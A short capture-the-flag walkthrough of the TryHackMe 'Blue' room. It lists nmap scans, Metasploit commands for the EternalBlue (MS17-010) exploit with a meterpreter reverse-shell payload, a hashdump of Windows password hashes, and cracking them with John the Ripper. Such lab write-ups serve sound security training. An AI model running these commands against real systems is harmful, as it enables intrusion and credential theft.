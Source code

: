 # Blue

**Room Link:** [https://tryhackme.com/room/blue](https://tryhackme.com/room/blue)

## **Walkthrough**

### **Recon**

`nmap -A 10.10.68.22`

``<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="original">``

The box is vulnerable to ms17-010

`nmap -p135,139,445,3389 --script=vuln 10.10.68.22`

<figure><img src="../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

### Gain Access / Escalate



`msfconsole`&#x20;

`search eternalblue`&#x20;

`use exploit/windows/smb/ms17_010_eternalblue`&#x20;

`set payload windows/x64/meterpreter/reverse_tcp`&#x20;

`set RHOSTS 10.10.68.22`&#x20;

`run`

<figure><img src="../../.gitbook/assets/image (1) (2).png" alt=""><figcaption></figcaption></figure>

### Cracking

`hashdump`

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

`john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt`

<figure><img src="../../.gitbook/assets/image (3) (2).png" alt=""><figcaption></figcaption></figure>

### Flags

Just ran this to find the locations of all the flags then grabbed them

`cd C:\`

`dir "flag*" /s`

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>
